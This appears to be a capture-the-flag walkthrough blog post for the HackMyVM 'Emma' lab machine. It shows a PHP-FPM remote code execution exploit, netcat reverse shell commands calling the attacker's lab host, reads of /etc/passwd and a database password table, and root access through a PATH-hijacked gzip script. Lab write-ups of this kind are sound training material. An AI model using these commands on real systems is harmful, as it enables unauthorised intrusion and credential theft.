 ```yaml
---
layout: post
title:  "Case Study : Emma / HMV"
---
```

- You’ll find this vm in HackMyVM `https://hackmyvm.eu/machines/machine.php?vm=Emma`

- Difficulty : Hard

## Directory scan
{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ dirb http://10.0.2.171
  ---- Scanning URL: http://10.0.2.171/ ----
  + http://10.0.2.171/index.php (CODE:200|SIZE:0)                                                                  
  + http://10.0.2.171/phpinfo.php (CODE:200|SIZE:58765)                                                            
  + http://10.0.2.171/robots.txt (CODE:200|SIZE:15)  
{% endhighlight %}


## Robots.txt

```
┌──(alienum㉿kali)-[~]
└─$ curl http://10.0.2.171/robots.txt                                               
itwasonlyakiss
```

## Set up golang

- sudo apt-get install golang
- go get github.com/neex/phuip-fpizdam
- export PATH=$PATH:$(go env GOPATH)/bin

## Run the script

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ phuip-fpizdam http://10.0.2.171/index.php
  2021/02/07 13:48:59 Base status code is 200
  2021/02/07 13:48:59 Status code 502 for qsl=1770, adding as a candidate
  2021/02/07 13:48:59 The target is probably vulnerable. Possible QSLs: [1760 1765 1770]
  2021/02/07 13:48:59 Attack params found: --qsl 1760 --pisos 42 --skip-detect
  2021/02/07 13:48:59 Trying to set "session.auto_start=0"...
  2021/02/07 13:48:59 Detect() returned attack params: --qsl 1760 --pisos 42 --skip-detect <-- REMEMBER THIS
  2021/02/07 13:48:59 Performing attack using php.ini settings...
  2021/02/07 13:48:59 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
  2021/02/07 13:48:59 Trying to cleanup /tmp/a...
  2021/02/07 13:48:59 Done!
{% endhighlight %}

## Reverse shell

- curl

```sh
┌──(alienum㉿kali)-[~]
└─$ curl http://10.0.2.171/index.php?a=/bin/sh+-c+'id;nc -e /bin/sh 10.0.2.15 4444'&
```

- listener

```sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.171 [10.0.2.171] 43972
/usr/bin/script -qc /bin/bash /dev/null
www-data@emma:~/html$
```

## Found emma's ssh credentials

- cat /etc/passwd

```sh
www-data@emma:~$ cat /etc/passwd
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
```
- The database maybe contains important data

- MySQL root login

```sh
www-data@emma:~$ mysql -u root -pitwasonlyakiss
MariaDB [(none)]> show schemas;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+
MariaDB [(none)]> use users;
MariaDB [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+
MariaDB [users]> select * from users;
+----+------+----------------------------------+
| id | user | pass                             |
+----+------+----------------------------------+
|  1 | emma | 5f****************************** |
+----+------+----------------------------------+
1 row in set (0.000 sec)
```

## Emma ssh login

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ ssh emma@10.0.2.171        
emma@10.0.2.171's password: 5f******************************

```

## Privileges Escalation

```#!/bin/sh
emma@emma:~$ sudo -l
Matching Defaults entries for emma on emma:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User emma may run the following commands on emma:
    (ALL : ALL) NOPASSWD: /usr/bin/gzexe
emma@emma:~$ ls
flag.sh  user.txt  who  who.c
emma@emma:~$ ./who
Im
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(emma)
But now Im
uid=1000(emma) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(emma)
emma@emma:~$ stat who
  File: who
  Size: 16760           Blocks: 40         IO Block: 4096   regular file
Device: 801h/2049d      Inode: 146490      Links: 1
Access: (6750/-rwsr-s---)  Uid: (    0/    root)   Gid: ( 1000/    emma)
```

```#!/bin/sh

emma@emma:~$ cat who.c
#include <stdio.h>
#include <stdlib.h>
void main(){
setuid(0);
setgid(0);
printf("Im \n");
system("/bin/id");
setuid(1000);
setgid(1000);
printf("But now Im \n");
system("/bin/id");
}

emma@emma:~$ sudo -u root /usr/bin/gzexe /bin/id
/bin/id:         59.2%
emma@emma:~$ cd /tmp
emma@emma:/tmp$ echo "nc -e /bin/sh 10.0.2.15 4444" > gzip
emma@emma:/tmp$ chmod +x gzip
emma@emma:/tmp$ export PATH=/tmp:$PATH
emma@emma:/tmp$ cd
emma@emma:~$ ./who
Im
(UNKNOWN) [10.0.2.15] 4444 (?) : Connection refused
Cannot decompress /usr/bin/id
```

- listener

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.171 [10.0.2.171] 43986
id
whoami
root
ls
flag.sh
user.txt
who
who.c
cd /root
ls
flag.sh
root.txt
```
